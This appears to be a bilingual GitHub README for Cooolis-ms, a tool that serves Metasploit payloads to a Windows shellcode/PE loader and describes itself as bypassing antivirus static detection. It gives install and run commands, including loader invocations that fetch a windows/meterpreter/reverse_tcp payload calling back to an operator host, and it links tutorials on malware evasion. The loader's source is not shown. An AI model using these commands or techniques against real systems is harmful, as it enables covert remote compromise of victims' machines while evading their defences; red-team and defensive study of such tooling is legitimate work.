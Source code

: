 # Cooolis-ms

Cooolis-ms 是一个支持Metasploit Framework RPC的一个服务端，用于给Shellcode和PE加载器工作，在一定程度上绕过反病毒软件的静态查杀，同时可以让Cooolis-ms服务端与Metasploit服务器进行分离。


Cooolis-ms is a server that supports the Metasploit Framework RPC. It is used to work with the Shellcode and PE loader. To some extent, it bypasses the static killing of anti-virus software, and allows the Cooolis-ms server to communicate with the Metasploit server. Separation.

## 该项目的优点

- 体积小（>=100KB）
- 支持Metasploit所有Payload
- 支持Windows XP + / Windows 2003 +
- 参数设置方便
- 单文件
- 分离的

## 你可以参考这里，写出自己的好项目

- [静态恶意代码逃逸（第一课）](https://payloads.online/archivers/2019-11-10/1)
- [静态恶意代码逃逸（第二课）](https://payloads.online/archivers/2019-11-10/2)
- [静态恶意代码逃逸（第三课）](https://payloads.online/archivers/2019-11-10/3)
- [静态恶意代码逃逸（第四课）](https://payloads.online/archivers/2019-11-10/4)
- [静态恶意代码逃逸（第五课）](https://payloads.online/archivers/2019-11-10/5)


## How to install | 如何安装

```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms
$ pip3 install -r requirements.txt
$ python3 server.py -h
```

## How to use |  如何使用

你需要先启动Metasploit RPC服务端：

You need to start the Metasploit RPC server first:

IP : 172.16.143.1

```
$ msfrpcd -U msf -P msf -u /api/1.0/
```

接着需要启动Cooolis-ms，使得它连接到RPC，并且监听一个端口，用来发送载荷：

Then you need to start Cooolis-ms so that it connects to the RPC and listens on a port to send the payload:

IP : 172.16.143.1

```
$ python3 server.py -U msf -P msf -H 127.0.0.1 -p 55553 -s -v -l 8899 -S 172.16.143.1
```

IP : 172.16.143.2

```
Windows > Coolis-ms.exe -p windows/meterpreter/reverse_tcp -s LHOST=172.16.143.1,LPORT=8876 -H 172.16.143.1 -P 8899
```

## Cooolis-ms server

```
usage: Cooolis-ms [-h] -U USERNAME -P PASSWORD [-H HOST] [-p PORT] [-S SERVER]
                  [-l LISTEN] [-u URI] [-t {exe,ruby,c,dll,vbs,powershell}]
                  [-s] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -U USERNAME, --username USERNAME
                        Metasploit web service username
  -P PASSWORD, --password PASSWORD
                        Metasploit web service password
  -H HOST, --host HOST  Metasploit web service host, Default: localhost
  -p PORT, --port PORT  Metasploit RPC service port, Default: 55553
  -S SERVER, --server SERVER
                        Payload sender listen host, Default: localhost
  -l LISTEN, --listen LISTEN
                        Payload listen port, Default: 1111
  -u URI, --uri URI     Metasploit RPC service uri, Default: /api/1.0/
  -t {exe,ruby,c,dll,vbs,powershell}, --type {exe,ruby,c,dll,vbs,powershell}
                        Payload Type
  -s, --ssl             Enable ssl, Default: True
  -v, --versobe         Enable debug
```

## Cooolis-ms Loader


```
[*]Usage : Cooolis-ms.exe -p [PAYLOAD] -s [PAYLOAD OPTIONS] -H [Stager Host] -P [Stager Port]
         -p [PAYLOAD]    MSF PAYLOAD TYPE
         -s [PAYLOAD OPTIONS]    MSF PAYLOAD OPTIONS
         -H [Stager Host]        Cooolis-Server Host
         -P [Stager Port]        Cooolis-Server Port
[*]Example : Cooolis-ms.exe -p windows/meterpreter/reverse_tcp -s LHOST=192.168.1.1,LPORT=1122 -H 192.168.2.1 -P 4444
```

## About other | 关于其他

~~后续我将会写出Windows平台下的通用加载器客户端集合到这个项目中。~~


~~Subsequent I will write a collection of generic loader clients for the Windows platform into this project.~~

如果你觉得这个项目不错，那就给一个Star～

If you think this project is good, give a Star.

## issue

[I have a question](https://github.com/Rvn0xsy/Cooolis-ms/issues)

## LICENSE

[GNU General Public License v3.0](https://github.com/Rvn0xsy/Cooolis-ms/blob/master/LICENSE)
